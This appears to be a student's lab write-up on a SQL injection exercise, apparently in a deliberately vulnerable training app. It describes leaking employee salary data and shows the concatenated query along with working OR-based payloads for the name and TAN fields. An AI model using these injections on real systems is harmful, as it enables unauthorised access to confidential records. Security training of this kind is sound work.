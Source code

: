 <img src="Homework/Pictures/SQLInj10Success.png" width="50%">  
>>>>>>> 67b99d8e8ba1f817347311a3a37e137cef6e7d7c

### 11 Confidentiality (Get access to salaries)
  
This was a trial and error run again for me.  
At first I just looked into what my, John Smith's, data looks like.  
Then I had some trouble with the syntax. How to place the quotation marks in the injected code.  
Tried with input:  
Name: Smith' OR 'i'='i'  
TAN: 3SL99A  
This resulted in a failure "malformed string". So I decided to take closer look at the original query:  
"SELECT * FROM employees WHERE last_name = '" + name + "' AND auth_tan = '" + auth_tan + "';  
Placing my little piece here it would look like:  
"SELECT * FROM employees WHERE last_name = 'Smith' OR 'i'='i'' AND auth_tan = '3SL99A';  
The issue can be clearly seen in the extra quotation mark after the second 'i'. Even if fixed, the auth_tan would ruin my attempt so a revised version:  
Input: Smith' OR 'i'='i  
TAN: 3SL99A' OR 'i'='i  
The full query is:  
"SELECT * FROM employees WHERE last_name = 'Smith' OR 'i'='i' AND auth_tan = '3SL99A' OR 'i'='i';  
  
This one was a **success** as both test are always true but I did leave some traces of my actions as I used my actual name and TAN number with the injections. I could have input any random strings to be safe. Too late now.  
  